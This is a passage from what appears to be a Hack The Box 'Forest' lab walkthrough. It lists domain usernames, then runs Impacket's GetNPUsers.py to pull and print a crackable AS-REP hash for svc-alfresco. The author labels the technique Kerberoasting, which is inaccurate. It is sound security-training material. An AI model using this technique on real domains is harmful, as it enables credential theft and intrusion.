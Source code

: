 ```
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
chris
```



## Exploitation and Gaining Access

Since Kerberos is available and we saw krbtgt user, let's check if all accounts have Kerberos Pre-Authentication enabled. By default, Kerberos Pre-Authentication is enabled, and has to be manually disabled per account (to my understanding). A great explanation was done by one of the Hack The Box members (kudos to VbScrub) and is worth watching, [GetNPUsers & Kerberos Pre-Auth Explained](https://www.youtube.com/watch?v=pZSyGRjHNO4&feature=youtu.be). Using GetNPUsers.py will help us test this and if one is found, it will let us retrieve their TGT to then crack it. ***Kerberoasting***


### GETNPUSERS
```
root@kali:~/Documents/HTB-Labs/Forest# /opt/impacket/examples/GetNPUsers.py -request -dc-ip forest.htb htb.local/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2020-01-09 22:58:26.322079  2019-09-23 07:09:47.931194  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:d9644faaaaef08d897e27b1127542f8e$8bdfa55873701bfda60228e02bedfb6e5c54c7eafcd7ad8e51363be34369238db71975d4ac5635aead39b406d8a57cd2e6dafe9f8e9925d7e3dcb03bc8c978df96afa8818e0e811a525fedcbd9f0207c1f146c36130959e6984f67b7559724fb236ac6aef8fc53a74ee553f6960b096207ee28765eeba436340f6f205c7fb7f3e56880ce104ae6908d1131d6193c99a43e46b4c9fa39357d95cea9cefbc94f5fc01b54247761a10ec947ae3fe79a38c075f776000b095cdc797c65784e08f66acf98538ca0bdd292165936d8c1b285fb71ecf826544e7f58b380d0d1acf364d32fb73c07222c
```
